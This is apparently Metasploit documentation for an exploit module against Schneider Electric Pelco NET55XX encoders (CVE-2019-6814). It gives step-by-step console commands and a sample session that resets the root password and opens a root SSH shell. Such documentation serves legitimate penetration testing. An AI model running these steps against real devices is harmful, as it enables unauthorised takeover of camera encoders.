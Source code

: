 ## Vulnerable Application

Schneider Electric Pelco NET55XX Encoder (CVE 2019-6814)

Adding Schneider Electric Pelco NET55XX module affecting NET55XX versions (NET5501, NET5501-I, NET5501-XT, NET5504, NET5500,NET5516,NET550).
 This module exploits an inadequate access control vulnerability creating a malicious json request to`the webUI encoder, thus allowing the SSH service to be enabled and changing the root password.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use  use exploit/linux/http/schneider_eletric_net55xx_encoder`
- [ ] `set RHOSTS [rhosts]`
- [ ] `set RPORT [rport]`
- [ ] `set NEW_PASSWORD [new password]`
- [ ] `exploit`
- [ ] Verify you get a root shell

## Options

This module can be as simple as setting the RHOST and NEW_PASSWORD option, and you're ready to go.

**NEW_PASSWORD**  

You should  set a new ssh password to the vulnerable device.


## Scenarios

**Schneider Electric Pelco Encoder NET5501-XT**

msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RHOSTS 192.168.34.2
RHOSTS  => 192.168.34.2
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RPORT 80
RPORT  => 80
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set NEW_PASSWORD msfrapid7
NEW_PASSWORD => msfrapid7
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > run

[] 192.168.34.2:22 - Attempt to start a SSH connection...
[] 192.168.34.2:80 - Attempt to change the root password...
[+] 192.168.34.2:80 - Successfully changed the root password...
[+] 192.168.34.2:22 - Session established
[] Found shell.
[] Command shell session 1 opened (192.168.34.3:37033 -> 192.168.34.2:22) at 2019-07-03 10:57:07 -0400

uname -a;id
Linux NET5501-XT-K61200103 2.6.37 #1 PREEMPT Fri Aug 8 04:33:08 KST 2014 armv7l unknown
uid=0(root) gid=0(root) groups=0(root)
